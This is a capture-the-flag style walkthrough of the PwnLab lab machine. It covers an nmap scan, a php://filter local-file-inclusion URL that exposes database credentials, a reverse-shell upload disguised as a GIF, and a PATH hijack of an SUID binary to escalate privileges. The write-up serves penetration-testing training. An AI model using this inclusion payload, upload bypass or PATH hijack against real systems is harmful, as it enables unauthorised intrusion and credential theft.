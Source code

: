 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


Let’s Find the Victim Machines IP Address ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled.png)

```bash
IP : 10.0.2.33
```

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pwnlab]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.33
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 16:06 IST
Nmap scan report for 10.0.2.33
Host is up (0.0016s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: PwnLab Intranet Image Hosting
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34509/tcp6  status
|   100024  1          45792/udp   status
|   100024  1          51759/udp6  status
|_  100024  1          51803/tcp   status
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 41
|   Capabilities flags: 63487
|   Some Capabilities: LongPassword, Support41Auth, InteractiveClient, ConnectWithDatabase, IgnoreSigpipes, LongColumnFlag, FoundRows, Speaks41ProtocolNew, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, SupportsTransactions, SupportsCompression, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 0%h[rJYb_9=egVY:X*gH
|_  Auth Plugin Name: mysql_native_password
51803/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:EF:BA:B4 (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%202.png)

Now lets try to access config.php file as I found while directory listing  For that I need to use the `php://filter` command >>

```bash
http://10.0.2.33/?page=php://filter/convert.base64-encode/resource=config
```

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%203.png)

I got this ➡️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%204.png)

```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

Now I got the sql access >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%206.png)

```sql
+------+--------------------------------+
| user |      pass > base64 decoded     |
+------+--------------------------------+
| kent | Sld6WHVCSkpOeQ== > JWzXuBJJNy  |
| mike | U0lmZHNURW42SQ== > SIfdsTEn6I  |
| kane | aVN2NVltMkdSbw== > iSv5Ym2GRo  |
+------+--------------------------------+
```

So with kent credentials I got logged in —>

But I can also se the index.php file like config so let’s see >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%207.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%208.png)

Now I see so I can use lang as a input for cookies so let’s try something —> 

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%209.png)

Now lets try to upload our reverse shell payload , but I was unable upload the .php file so I made some changed while uploading the payload ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2010.png)

1. I changed the file name and added `.gif`
2. I changed the `Content-Type:` from `application/x-php` to `image/gif`.
3. Then I added the magic number of gif file as `GIF89a;` to make it look like gif file .
4. In response I got the upload location .

Now lets access the file as we accessed `/etc/passwd` file >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2012.png)

I got the Local Privilege shell So lets exploit it further now ➡️

So while enumerating I got this >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2013.png)

So in this case `msgmike` executes cat command to read the following file and it also contains the SUID permissions for mike to provide a executable shell .

therefore I need to make `cat` as `bin/bash` and it will be executed by `msgmike` .

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2015.png)

Lets see what it does >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2016.png)

Now the simple thing to do >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2017.png)

can’t use cat because of the $PATH that’s why I used more here ⬇️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2018.png)